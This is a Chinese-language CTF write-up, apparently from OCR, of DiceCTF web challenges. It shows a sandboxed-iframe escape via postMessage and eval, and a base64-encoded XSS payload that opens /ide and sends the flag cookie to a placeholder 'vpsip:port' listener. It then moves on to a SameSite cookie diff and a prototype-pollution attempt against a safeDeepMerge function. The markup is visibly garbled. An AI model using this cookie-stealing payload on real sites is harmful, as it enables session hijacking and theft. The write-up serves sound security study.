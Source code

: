 解决办法就是，在服务器上构造一个没有sandbox="allow-s"这个属性限制的iframe，代码如下:

< body>< iframesrc= "https://web-ide.dicec.tf/sandbox.html"width= "800"height= "400"> iframe>< >letxss = `console.log(window.location)`,payload = `''.sub.constructor('eval( ${xss})')`,frame = document.querySelector( "iframe");frame.addEventListener( "load", function( e){console.log( "loaded")frame.contentWindow.postMessage(payload, '*');}); > body>

在本机服务器上写了这样一个页面，访问后在控制台成功打印了window.location属性，但是存储着flag的cookie只在/ide路由下可见

所以需要改一下代码执行部分，改成使用window.open打开/ide(此时跟sandbox.html同源)，然后把对应cookie打到vps监听端口即可。

< html>< body>< iframesrc= "https://web-ide.dicec.tf/sandbox.html"width= "800"height= "400"> iframe> body>< >letxss = btoa( `eval("const win = window.open('/ide');setTimeout(function{window.location.href='http://vpsip:port/?q='+win.document.cookie},3000)")`);payload = `[].constructor.constructor('eval(atob(' ${xss}'))')`;frame = document.querySelector( "iframe");frame.addEventListener( "load", function( e){console.log( "loaded")frame.contentWindow.postMessage(payload, '*');}); > html>

用admin bot访问服务器对应地址即可

![4c7a24e3b62f7fc5814a3fdcde64900d.png](img/25c1fa7252b9effa46b68643348fdccf.png)

Build a Better Panel

这个题是Build a Panel的升级版，diff了一下，代码只改变了一点，就是设置cookie的sameSite属性为strict

63c63< res.cookie( 'panelId', newPanelId, { maxage: 10800, httponly: true, sameSite: 'lax'});---> res.cookie( 'panelId', newPanelId, { maxage: 10800, httponly: true, sameSite: 'strict'});149c149< res.cookie( 'token', secret_token, { maxage: 10800, httponly: true, sameSite: 'lax'});---> res.cookie( 'token', secret_token, { maxage: 10800, httponly: true, sameSite: 'strict'});

设置cookie的sameSite属性为strict的后，跨站点时，任何情况下都不会发送 Cookie。除此之外，在题目描述中还说明了一个限制:

NOTE: The admin will only visit sites that match the following regex ^https://build-a-better-panel.dicec.tf/create?[0-9a-z-=]+$

也就是admin这次只能访问/create路由了，于是只能找其他方法绕过。

首先注意到custom.js中的这段代码

constmergableTypes = [ 'boolean', 'string', 'number', 'bigint', 'symbol', 'undefined'];constsafeDeepMerge = ( target, source) =>{for( constkey insource) {if(!mergableTypes.includes( typeofsource[key]) && !mergableTypes.includes( typeoftarget[key])){if(key !== '__proto__'){safeDeepMerge(target[key], source[key]);}} else{target[key] = source[key];}}}

循环赋值，并且检查了__proto__关键字，看起来应该有原型链污染，但这里过滤了__proto__这个关键字让我不知道怎么搞了。比赛的时候在这里思路卡死了，后来看到别人说这个poc，简单来说，就是可以通过

Object.prototype. = 'alert(1)'
